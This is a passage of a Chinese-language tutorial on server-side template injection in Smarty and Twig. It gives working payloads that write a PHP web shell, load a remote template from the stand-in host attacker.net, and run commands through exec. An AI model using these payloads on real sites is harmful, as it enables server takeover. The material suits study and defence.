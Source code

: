 ```php
public function writeFile($_filepath, $_contents, Smarty $smarty)
```

第3个参数为 Smarty 类型，最后落脚到 `self::clearConfig()`：

```php
public function clearConfig($varname = null) {
    return Smarty_Internal_Extension_Config::clearConfig($this, $varname);
}
```

Payload:

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

- Twig

Twig 无法调用静态方法，并且所有函数的返回值都转换为字符串，无法使用 `self::` 调用静态变量。

在 [Twig官方文档](https://twig.symfony.com/doc/2.x/templates.html#global-variables) 中发现 Twig 为我们提供了全局变量`_self`(references the current template name).

同时Twig_Environment对象有一个 setCache 方法可用于更改 Twig 尝试加载和执行编译模板（PHP文件）的位置，明显的攻击是通过将缓存位置设置为远程服务器来引入远程文件包含漏洞：

```php
\{\{_self.env.setCache("ftp://attacker.net:2121")\}\}
\{\{_self.env.loadTemplate("backdoor")\}\}
```

`allow_url_include`默认关闭，无法远程包含文件，这时还有个调用过滤器的函数 [getFilter($name)](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php#L874)

```php
public function getFilter($name)
{
        [snip]
        foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = call_user_func($callback, $name)) { //<--- Attention
            return $filter;
        }
    }
    return false;
}
public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
} 
```

这里只需把 exec() 作为回调函数传入即可实现命令执行:

```php
\{\{_self.env.registerUndefinedFilterCallback("exec")\}\}
\{\{_self.env.getFilter("id")\}\}
```
